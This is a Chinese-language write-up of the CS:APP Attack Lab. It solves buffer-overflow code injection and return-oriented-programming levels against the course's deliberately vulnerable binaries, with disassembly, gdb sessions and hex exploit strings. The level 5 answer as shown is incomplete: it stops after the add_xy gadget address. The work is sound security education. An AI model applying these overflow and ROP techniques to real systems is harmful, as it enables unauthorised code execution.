







## Attack Lab

> 题意解析：
>
> ctarget：存在代码注入漏洞的linux二进制文件，用于1-3
>
> rtarget：存在面向返回编程漏洞的linux二进制文件，用于4-5
>
> ​	->farm.c你将在生成面向返回的编程攻击的时候用到它
>
> hex2raw.txt：用于生成攻击字符串的工具
>
> cookie.txt：一个8位16进制代码，在攻击中作为唯一标识
>
> 
>
> ctarget和rtarget采用的输入方式：注意是编译时就已经确定的常量作为数组的大小
>
> ```c
> 1 unsigned getbuf()
> 2 {
> 3 char buf[BUFFER_SIZE];
> 4 Gets(buf);
> 5 return 1;
> 6 }
> ```
>
> 
>
> hex2raw的使用：
>
> 编写.txt文件
>
> 注意hex2raw要求格式，每一行8个字节，每个字节用空格隔开，每个字节用16进制表示，注意x86小端序--低位在低地址处
>
> 在gdb中运行：
>
> ```
> # 先生成 raw 文件
> ./hex2raw < exploit.txt > exploit-raw.bin
> 
> # 启动 gdb
> gdb ./ctarget
> # gdb 提示符下运行
> (gdb) run < exploit-raw.bin
> ```

[Attack Lab--官方说明文档](https://csapp.cs.cmu.edu/3e/attacklab.pdf)

> 前三部分：代码注入攻击：
>
> ctarget:每次栈位置在运行中都保持一致，栈上的数据可以被当作可执行代码处理

### Level 1

根据上面官方说明文档读清需求之后，大致思路就是找到getbuf结束的位置，然后将touch1函数的开始地址注入到getbuf之后，使其直接调用执行torch1而不返回

我们开始分析ctarget的反汇编

test函数

```c
1 void test()
2 {
3 int val;
4 val = getbuf();
5 printf("No exploit. Getbuf returned 0x%x\n", val);
6 }
```

```asm
(gdb) disassemble test
Dump of assembler code for function test:
   0x0000000000401968 <+0>:     sub    $0x8,%rsp
   0x000000000040196c <+4>:     mov    $0x0,%eax
   #这里开始调用getbuf
   0x0000000000401971 <+9>:     call   0x4017a8 <getbuf>
   #这里将返回值赋值给%edx
   0x0000000000401976 <+14>:    mov    %eax,%edx
   #%esi = "No exploit.  Getbuf returned 0x%x\n"（第二个参数）
   0x0000000000401978 <+16>:    mov    $0x403188,%esi
   #%edi = 1（第一个参数），这里直接赋值了感觉是因为知道上面程序一定是调用完毕才会执行下面的语句，所以就直接赋值了
   0x000000000040197d <+21>:    mov    $0x1,%edi
   #返回值清0
   0x0000000000401982 <+26>:    mov    $0x0,%eax
   #调用prinf函数打印字符串
   0x0000000000401987 <+31>:    call   0x400df0 <__printf_chk@plt>
   0x000000000040198c <+36>:    add    $0x8,%rsp
   0x0000000000401990 <+40>:    ret    
End of assembler dump.
(gdb) 
```

分析getbuf函数

```c
1 unsigned getbuf()
2 {
3 char buf[BUFFER_SIZE];
4 Gets(buf);
5 return 1;
6 }
```

```asm
(gdb) disassemble getbuf
Dump of assembler code for function getbuf:
   0x00000000004017a8 <+0>:     sub    $0x28,%rsp
   #将栈指针作为第一个参数传入下面的函数中
   0x00000000004017ac <+4>:     mov    %rsp,%rdi
   0x00000000004017af <+7>:     call   0x401a40 <Gets>
   #将返回值置为1
   0x00000000004017b4 <+12>:    mov    $0x1,%eax
   0x00000000004017b9 <+17>:    add    $0x28,%rsp
   0x00000000004017bd <+21>:    ret    
End of assembler dump.
```

此时栈帧：test函数向下分配了8字节，getbuf向下分配了40字节



所以思路就已经明朗了，我们需要填满get buf的40个字节的空间，然后在第41个字节位置处注入touch1函数的函数地址，就能让getbuf直接返回调用touch1

**即我们的输入需要是40字节+touch1函数的起始地址，就能成功完成注入**

找到touch1函数的起始地址`0x00000000004017c0`

编写level.txt文件，注意x86小端序--低位的在低地址，注意顺序问题

注意hex2raw要求格式，每一行8个字节，每个字节用空格隔开，每个字节用16进制表示

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
c0 17 40 
```

```
lyjy@Lenovo:~/CSAPP/attacklab$ ./hex2raw<level1.txt>level
lyjy@Lenovo:~/CSAPP/attacklab$ ./ctarget -q -i level
Cookie: 0x59b997fa
Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:1:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 C0 17 40 
```

成功了

这里卡了好久，原因不是编写的不对，而是./hex2raw < level1.txt | ./ctarget -q管道方式的问题

**懒得去思考为啥管道方式为什么运行不成功的问题了，只需要知道这种方式用不了即可**


### Level2

touch2文件：

```c
1 void touch2(unsigned val)
2 {
3 vlevel = 2; /* Part of validation protocol */
4 if (val == cookie) {
5 printf("Touch2!: You called touch2(0x%.8x)\n", val);
6 validate(2);
7 } else {
8 printf("Misfire: You called touch2(0x%.8x)\n", val);
9 fail(2);
10 }
11 exit(0);
12 }
```

任务：让ctarget执行touch2的代码，而不是返回到test，然后必须在此基础上将cookie作为参数传递给touch2

思路：前一部分的思路还是和level1一样的，后一部分的思路就是通过%rdi（地一个参数的寄存器将cookie传递给touch2）


必要的信息

```
0x4017ec touch2.c函数地址
Cookie: 0x59b997fa
```

根据官方文档的提示，这次需要用到反汇编程序了，我们的思路是这样的，先写出汇编代码作为字符串，然后编译我们的汇编文件得到.o可执行文件，然后再反汇编查看机器代码，然后我们再构建攻击字符串

> 再次重申为什么可以这么做，因为该程序栈每次的位置是不变的，我们**很容易找到栈的位置**，并且这个实验中栈是**可执行的，所以可以采用字符串注入为可执行代码**，并且这个栈没有金丝雀值，所以我们可以**用某种手段修改程序的走向，比如level1采用的手段，直接返回到了touch1函数**

构建汇编代码level2inject.s

这里不能使用jmp和call，因为这些代码的目标地址代码难以确定，所以我们使用ret作为控制转移，使用push作为调用函数

深入理解ret：从栈顶指针指向的内存位置读取8字节，然后将这个值加载到%rip（PC），然后PC就会根据这个8字节的地址进行跳转了，这样就实现了跳转touch2函数的结果

下面的汇编代码的意思是，将cookie作为第一个参数放入寄存器，然后将touch2函数的地址压入栈，栈指针再次下移，然后存入touch2的函数地址，根据上面介绍的ret，跳转到ret，执行完touch2函数

```asm
movq    $0x59b997fa, %rdi
pushq   $0x4017ec
ret
```

```
lyjy@Lenovo:~/CSAPP/attacklab$ gcc -c level2inject.s 
level2inject.s: Assembler messages:
level2inject.s: Warning: end of file not at end of a line; newline inserted
lyjy@Lenovo:~/CSAPP/attacklab$ objdump -d level2inject.o > level2inject.d
```

```
//反汇编
level2inject.o:     file format elf64-x86-64
Disassembly of section .text:

0000000000000000 <.text>:
   0:	48 c7 c7 fa 97 b9 59 	mov    $0x59b997fa,%rdi
   7:	68 ec 17 40 00       	push   $0x4017ec
   c:	c3                   	ret    
```

详细执行流程：程序开始还是执行test，然后test调用执行getbuf，getbuf读取我们输入的攻击字符串，里面有我们写的汇编代码对应的机器码，执行到getbuf的ret后，应该返回test的地址，我们让其返回我们注入代码的地址（**重定向**），这时我们的写的攻击字符串就作为可执行代码开始执行了，然后通过我们写的代码再调用touch2函数，完美完成任务



所以我们还需要计算注入代码的地址，即调用getbuf后栈顶的地址

> 使用gdb ctarget进入调试，但是一开始我使用`run`指令调试会出现`Program received signal SIGSEGV,Segmentation fault`错误且不能在正确的断点处中断。将`run`加上参数`run -q -i phase2.txt`即可正确调试。
>
> 并且打断点的时候一定要打到break *0x4017ac，就是getbuf %rsp分配栈空间的那一行，不要打到函数名那里

避免段错误的正确调试

```
lyjy@Lenovo:~/CSAPP/attacklab$ gdb ctarget
GNU gdb (Ubuntu 12.1-0ubuntu1~22.04.2) 12.1
Copyright (C) 2022 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<https://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from ctarget...
注意这里是打断点在栈指针向下移动后的第二行
(gdb) break *0x4017ac
Breakpoint 1 at 0x4017ac: file buf.c, line 14.
(gdb) run -q -i level2.txt
Starting program: /home/lyjy/CSAPP/attacklab/ctarget -q -i level2.txt
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Cookie: 0x59b997fa

Breakpoint 1, getbuf () at buf.c:14
14      buf.c: No such file or directory.
(gdb) print /x $rsp
$1 = 0x5561dc78
```

```
0x5561dc78终于得到了正确答案
```

最终答案：

```
48 c7 c7 fa 97 b9 59 68
ec 17 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
```

成功通过

```
lyjy@Lenovo:~/CSAPP/attacklab$ ./hex2raw<level2.txt>level2
lyjy@Lenovo:~/CSAPP/attacklab$ ./ctarget -q -i level2
Cookie: 0x59b997fa
Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:2:48 C7 C7 FA 97 B9 59 68 EC 17 40 00 C3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 78 DC 61 55 00 00 00 00 
```


### level3

要求：注入touch3，涉及注入攻击，需要改动返回值，不过这个题参数是字符串

字符串要求：八个十六进制数字（从高位到低位的顺序）组成，且不含有前导0x

用%rdi装该字符串

因为官方文档里面说了当函数hexmatch和strncmp被调用的时候，他们会将数据压入栈中，可能会掩盖getbuf的缓冲区的内存部分，提醒我们要小心cookie放置的位置，所以我们可以**将其放到test的栈内**

```c
//这个函数的意思是比较一个给定的字符串sval和整数val--这里是cookie的16进制表示是否匹配
2 int hexmatch(unsigned val, char *sval)
3 {
4 char cbuf[110];//这个就是缓冲区
6 char *s = cbuf + random() % 100; //生成一个指向上面cbuf的指针，来让下面写入的地址变得不可预测
7 sprintf(s, "%.8x", val); //将val的十六进制表示格式化为一个8个字符的字符串，并将其写入s指向的位置
    //比较用户输入的字符串sval刚才的s，比较9个字节
8 return strncmp(sval, s, 9) == 0;
9 }
```

```c
11 void touch3(char *sval)
12 {
13 vlevel = 3; /* Part of validation protocol */
14 if (hexmatch(cookie, sval)) {
   
15 printf("Touch3!: You called touch3(\"%s\")\n", sval);
16 validate(3);
17 } else {
18 printf("Misfire: You called touch3(\"%s\")\n", sval);
19 fail(3);
20 }
21 exit(0);
22 }
```


需要的信息

```
touch3位置 ： 0x4018fa--这个是用来在getbuf注入的
getbuf栈顶位置：0x5561dc78--这个是用来到getbuf函数返回值那里用来重定向的
test栈顶位置：0x5561dca8--这个是用来放“Cookie”字符串的ASCII码十六进制表示的地方
Cookie: 0x59b997fa
59b997fa作为字符串转换成ASCII表示（16进制）：35 39 62 39 39 37 66 61
注意ASCII这里在内存中没有大小端这一说，所以直接排列即可
```

参考下面的ASCII码表转换为16进制



流程：首先还是调用test函数，然后调用getbuf，然后我们输入进一个字符串，在这个字符串的时候我们需要调用touch3,并且需要覆盖返回地址，让其重定向到getbuf的栈顶位置，然后开始执行我们注入的代码，我们携带的参数是cookie的十六进制表示形式，然后在`hexmatch`中将cookie十六进制的表示（我们传入的参数）和unsigned val（编译时就已经确定，不需要我们传递）进行比较

这里与上面不同的地方就是需要将**cookie**放在test的栈中，防止被覆盖

构造汇编

汇编的作用就是将cookie的十六进制放在test的栈顶位置，然后把touch3入栈

```asm
movq  $0x5561dca8,%rdi
pushq $0x4018fa
ret
```

反汇编，构造level3.txt

```
48 c7 c7 a8 dc 61 55 68
fa 18 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
35 39 62 39 39 37 66 61
```

成功通过

```
lyjy@Lenovo:~/CSAPP/attacklab$ ./hex2raw<level3.txt>level3
lyjy@Lenovo:~/CSAPP/attacklab$ ./ctarget -q -i level3
Cookie: 0x59b997fa
Touch3!: You called touch3("59b997fa")
Valid solution for level 3 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:3:48 C7 C7 A8 DC 61 55 68 FA 18 40 00 C3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 78 DC 61 55 00 00 00 00 35 39 62 39 39 37 66 61 
```




> 后两部分：返回导向编程--ROP
>
> ptarget使用的存储栈：使用了随机化，**栈在不同的运行中位置不同**，存储栈内存标记为**不可执行**--比ctarget更加困难
>
> 上面两条告诉我们不能用getbuf函数里面的字符串作为攻击字符串了，因为随机化的存在，我们也不能使用具体的地址了
>
> 所以采用注入代码的方法会失效，会报段错误
>
> 我们采用执行现有代码而不是注入新代码的方式进行，具体来说ROP的策略就是**识别现有程序中一个或多个指令后跟ret组成的字节序列，这样的代码段叫做gadget，用这么一个拼凑成我们的代码**
>
> 
>
> 指令编码表：
>
> 
>
> 举个例子：
>
> ```asm
> 0000000000400f15 <setval_210>:
>  400f15: c7 07 d4 48 89 c7   movl $0xc78948d4,(%rdi)
>  400f1b: c3                  retq
> ```
>
> 取48 89 c7表示指令movq %rax, %rdi
>
> **其他一些可用的代码在farm.c中展示了出来**
>
> 
>
> 具体使用流程：先改变返回地址，重定向到gadget1，然后执行相应我们再次编码的指令，然后再通过ret跳转到gadget2，以此类推，就可以完成执行我们全部代码的效果
>
> 具体选择gadget的需要在farm.c中进行挑选

### level4

> 这里需要重复level2的攻击，即返回touch2的函数

ptarget使用的存储栈：使用了随机化，**栈在不同的运行中位置不同**，存储栈内存标记为**不可执行**--比ctarget更加困难

上面两点的影响是，位置不同，但是**函数地址固定不变，因为可执行文件中代码段通常有固定地址**，其他地址会变，存储栈标记为不可执行，说明我们不能将我们的字符串作为机器代码进行执行了，但是**我们还是可以写入的**

但是我们仍然可以使用test里面的进行重定向，只不过需要重定向到我们到的gadget

level2所用的汇编：


```asm
movq    $0x59b997fa, %rdi
pushq   $0x4017ec
ret
```

思路：首先还是test执行，然后跳转到getbuf，但是因为不可执行的原因，我们无法使用读取的字符串作为攻击字符串再次使用，我们只能从farm.c库中找寻我们需要的代码段（这个肯定是可执行的），然后我们再通过**getbuf的函数重定向**到我们使用的gadget即可

所以思路的重点是重定向找到我们需要的gadget

首先明确我们需要完成什么任务，我们应该找到上面对应的将cookie放入到%rdi的命令，并且我们的gadget没有立即数这种表示，所以我们只能使用**pop命令加载立即数**

所以大致思路应该是这样的，我们将cookie放在我们的gadget的上方

```asm
pop %rdi
ret
```

在pop的时候，程序会将栈指针上移8byte，然后取出cookie加载到%rdi，然后我们将ret的地址设置为touch2的地址就可以直接返回到touch2了

但是我们在farm.c搜索的时候没有找到pop %rdi表示的，所以我们使用其他寄存器进行中转一下

然后就变成了

```asm
popq %rax
ret -- 这里的ret用来调用下面的gadget

movq %rax %rdi 
ret -- 这里的ret用来调用touch2
```

需要的信息

搜索popq %rax-->58

找到这里的地址为4019ab

```asm
00000000004019a7 <addval_219>:
  4019a7:	8d 87 51 73 58 90    	lea    -0x6fa78caf(%rdi),%eax
  4019ad:	c3                   	ret   
```

搜索movq %rax %rdi-->48 89 c7

地址4019c5

```asm
00000000004019c3 <setval_426>:
  4019c3:	c7 07 48 89 c7 90    	movl   $0x90c78948,(%rdi)
  4019c9:	c3   
```

**注意这里，ret与我们选中的编码之间还有一个90,这个必须是上面表中没有出现过的编码，这样才能识别为空**

```
cookie：0x59b997fa
0x4017ec touch2.c函数地址
```

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
ab 19 40 00 00 00 00 00 //这一行是借助getbuf的返回地址直接返回到第一个gadget
fa 97 b9 59 00 00 00 00 //这一行是标志cookie，这样在第一个gadget执行pop的时候%rax就会拿到cookie
c5 19 40 00 00 00 00 00 //这一行是第二个gadget，第一个gadget ret后将栈指针再向上读取8字节
ec 17 40 00 00 00 00 00 //这一行是返回touch2函数

```

攻击成功！！

```
lyjy@Lenovo:~/CSAPP/attacklab$ ./hex2raw<level4.txt>level4
lyjy@Lenovo:~/CSAPP/attacklab$ ./rtarget -q -i level4
Cookie: 0x59b997fa
Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target rtarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:rtarget:2:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 AB 19 40 00 00 00 00 00 FA 97 B9 59 00 00 00 00 C5 19 40 00 00 00 00 00 EC 17 40 00 00 00 00 00 
```



### level5

> 题意解析：同level3,携带参数cookie字符串，调用touch3
>
> ```
> Cookie: 0x59b997fa
> 59b997fa作为字符串转换成ASCII表示（16进制）：35 39 62 39 39 37 66 61
> 注意ASCII这里在内存中没有大小端这一说，所以直接排列即可
> ```

回顾touch3的汇编代码

```asm
movq  $0x5561dca8,%rdi
pushq $0x4018fa
ret
```

touch3也涉及了，因为上面那一种情况只需要传递cookie的数值本身，所以不论栈怎么随机化，你都可以直接写到ROP里面，但是touch3需要传递的是cookie的地址，而栈随机化是会影响地址的，所以我们需要找到一种方法传递这个地址

**这种方法就是想办法获得%rsp的地址，然后将其加上固定的偏移量从而找到cookie**

第一步：movq %rsp xx--保存下来栈顶指针的位置

查询得到了`movq %rsp %rax`，地址：`401aad`



找到倒数第二步用的gadget：

这个需要全用，这个需要用 %rdi %rsi两个寄存器计算偏移量

```
00000000004019d6 <add_xy>:
  4019d6:	48 8d 04 37          	lea    (%rdi,%rsi,1),%rax
  4019da:	c3                   	ret   
```

这里的思路就是%rdi和%rsi其中一个保留%rsp原来的位置，一个保留偏移量，然后加到%rax

倒数第一步：`movq %rax %rdi`，地址`4019c5`

这一步就是将cookie的地址传给%rdi--第一个参数，然后准备开始调用touch3了

```
00000000004019c3 <setval_426>:
  4019c3:	c7 07 48 89 c7 90    	movl   $0x90c78948,(%rdi)
  4019c9:	c3                   	ret   
```

现在分析怎么计算偏移量，以及怎么计算


第二步：将初始%rsp放在%rdi之中，也就标志着%rsi需要用来计算偏移量

和倒数第一步一样

`movq %rax %rdi`--地址`4019c5`

```
00000000004019c3 <setval_426>:
  4019c3:	c7 07 48 89 c7 90    	movl   $0x90c78948,(%rdi)
  4019c9:	c3                   	ret  
```

第三步：用%rsi计算偏移量

首先应该取偏移量popq

找不到直接popq %5e，我们找popq %rax--地址`4019ab`

```
00000000004019a7 <addval_219>:
  4019a7:	8d 87 51 73 58 90    	lea    -0x6fa78caf(%rdi),%eax
  4019ad:	c3                   	ret  
```

然后popq后面接偏移量，我们给一个偏移量

第四步：将偏移量从%rax转移到%rsi这里

没有直接movq %rax %rsi的命令，所以我们采用中转

中转采用movq也没有相应的指令，所以我们使用movl，movl也只有一个可用就是

`movl %eax %edx`--地址`4019dd`

```
00000000004019db <getval_481>:
  4019db:	b8 5c 89 c2 90       	mov    $0x90c2895c,%eax
  4019e0:	c3                   	ret 
```

`movl %edx %ecx`--地址`401a70`

```
0000000000401a6e <setval_167>:
  401a6e:	c7 07 89 d1 91 c3    	movl   $0xc391d189,(%rdi)
  401a74:	c3                   	ret    
```

`movl %ecx %esi`--地址`401a13`

```
0000000000401a11 <addval_436>:
  401a11:	8d 87 89 ce 90 90    	lea    -0x6f6f3177(%rdi),%eax
  401a17:	c3                   	ret  
```

最后做出来就是这样的


答案

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
ad 1a 40 00 00 00 00 00
c5 19 40 00 00 00 00 00
ab 19 40 00 00 00 00 00
48 00 00 00 00 00 00 00
dd 19 40 00 00 00 00 00
70 1a 40 00 00 00 00 00
13 1a 40 00 00 00 00 00
d6 19 40 00 00 00 00 00
